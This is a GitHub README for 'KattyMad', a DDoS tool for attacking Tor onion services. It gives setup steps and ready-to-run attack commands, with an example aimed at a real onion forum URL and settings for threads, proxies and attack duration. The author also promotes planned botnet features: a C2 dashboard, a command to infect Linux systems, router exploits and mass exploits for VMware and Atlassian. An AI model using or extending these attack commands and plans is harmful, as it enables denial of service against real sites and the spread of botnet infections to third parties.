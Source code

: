 # Kattymad
# v1.1
KattyMad is a tool designed to install and perform DDoS attacks over the onion protocol.  <br>
I started from a fork of "KARMA" but it was literally unmaintaned and was using old cookies concept and also network stack was performing worstly than expected.
So i started again and this time i found very useful the MHDDoS project. <br>
Im constantly editing this project because the aim is to create mass environments that can easily takeover onion networks.
Please, read the [TODO](TODO.txt) and help me.

(NB. Credits binary code is just a reverse from ascii common text)<br>
![kattymad](https://github.com/electr0lulz/kattymad/blob/e5438634e844787037fc47dc16806fb2bb05bc06/ddos/files/katty_1.png)


## Usage on Linux ##
Requirements:
You must use Python 3.9 or higher

Step:
```
git clone https://github.com/electr0lulz/kattymad
cd kattymad
sudo ./setup.sh
```
## Example
```
Use DDoS Panel   : python3 kitty.py
Use command line : python3 kitty.py <method> <target> <thread> <time>
```

## Pratical Usage on onion services ##
ATM: best methods are stomp+cookies+slow (and connections) i will include here a script call ddos.sh that require only URL+TIMING args.
```
syntax:
python3 katty.py cookie $1 0 256 proxy.txt $PORT $2
example:
python3 katty.py stomp http://cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion/ 0 64 proxy.txt 256 1800 debug
or
./ddos http://cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion/ 60 ##### it means 60 seconds ddos on url of cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion.
```
Where $PORT is a variable editable into your ddos.sh file, usually 80 is the best option. $1 is the url, and $2 is the timing.
About now it's automatically setted up on 256 threads. (connections don't require anything else)
CryptBB is just an onion example. Use your favorite onion url.

Soon i will remove all unused methods from previous forked version, also, you will be able to access to the C2C management where you can add all your katty servers and start attacks with a everyshell together.
Also will be a very nice WebDashboard (about now is wrote in PHP, but soon will be ported in golang) where you can manage your C2C, your bots without needs to open shell, have a very easy command to infect other linux-based systems and a web-exploitter based on realtek, dlink and other shitty-router platform (including some mass-exploit made by me for vmware and atlassian) allowing you to have a botnet very quickly.
Very soon multitor version and captcha bypass will be added, even if we are found a lot of problems in solving the dread-based-captcha.
##
See you around.
[Electr0lulz](https://github.com/electr0lulz/)